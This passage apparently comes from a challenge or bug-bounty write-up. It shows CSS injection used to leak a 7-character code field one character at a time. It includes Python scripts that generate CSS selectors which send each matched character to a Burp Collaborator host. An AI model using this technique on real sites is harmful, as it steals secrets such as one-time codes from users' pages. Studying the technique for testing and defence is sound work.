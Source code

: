 In this case, I recieved 3 requests:
1. /import.css
2. /input
3. /inputc

So, I felt good vibes...
And I was generating successively CSS files like an blind SQLi.
I created a little Python Script for generate the CSS file each time.
```python3
char_list = ['','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9','\\.','\\-','_']
base = 'c'

for letter in char_list:
    print('input[name^={}{}]{{'.format(base, str(letter)))
    print('    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/input{}{}");'.format(base, str(letter)))
    print('}')
```

Until... in one case I recieved 9 requests:
1. /import.css
2. /input
3. /inputcode_1
4. /inputcode_2
5. /inputcode_3
6. /inputcode_4
7. /inputcode_5
8. /inputcode_6
9. /inputcode_7

Ok... wait.
I remembered that the code that the page expects has 7 chars of length!
So I need to modify my css, and if my speculation would be correct, I only recieve one char for input.

```python3
import urllib.parse
lista = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9','\\.','\\-','_','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','\\*','\\\\','\\|','\\/','\\+','\\=','\\@','\\?','\\(','\\)','\\[','\\]','\\?','\\@','\\¿','\\`','\\\'','\\´','\\"','\\{','\\}']

for code in range(7):
    code += 1
    for letter in lista:
        print('input[name=code_{}][value={}]{{'.format(str(code), str(letter)))
        encoded = urllib.parse.quote(str(letter))
        print('    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/inputcode{}_{}");'.format(str(code),encoded))
        print('}')
```
